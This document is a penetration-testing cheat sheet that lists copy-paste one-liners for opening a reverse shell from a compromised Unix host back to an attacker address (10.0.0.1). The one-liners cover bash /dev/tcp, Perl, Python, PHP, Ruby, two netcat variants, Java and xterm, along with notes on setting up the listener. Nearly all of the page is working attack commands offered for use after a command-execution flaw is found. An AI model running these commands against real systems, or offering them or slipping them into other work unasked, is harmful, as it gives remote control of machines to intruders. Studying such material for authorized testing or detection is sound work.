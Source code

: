 
#+TITLE: Reverse Shell Cheat Sheet

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.


* Bash


Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
#+BEGIN_SRC bash 
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
#+END_SRC
* PERL


Here’s a shorter, feature-free version of the perl-reverse-shell:
#+BEGIN_SRC perl 
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
#+END_SRC
There’s also an alternative PERL revere shell here.
* Python

This was tested under Linux / Python 2.7:
#+BEGIN_SRC python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#+END_SRC
* PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
#+BEGIN_SRC php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
#+END_SRC
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

* Ruby
#+BEGIN_SRC ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
#+END_SRC
* Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
#+BEGIN_SRC bash
nc -e /bin/sh 10.0.0.1 1234
#+END_SRC
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

* Java
#+BEGIN_SRC java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
#+END_SRC
[Untested submission from anonymous reader]

* xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
#+BEGIN_SRC bash
xterm -display 10.0.0.1:1
#+END_SRC
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
#+BEGIN_SRC bash
Xnest :1
#+END_SRC
You’ll need to authorise the target to connect to you (command also run on your host):
#+BEGIN_SRC bash
xhost +targetip
#+END_SRC
Further Reading

Also check out Bernardo’s Reverse Shell One-Liners.  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.

There’s a reverse shell written in gawk over here.  Gawk is not something that I’ve ever used myself.  However, it seems to get installed by default quite often, so is exactly the sort of language pentesters might want to use for reverse shells.

Tags: bash, cheatsheet, netcat, pentest, perl, php, python, reverseshell, ruby, xterm

Posted in Shells
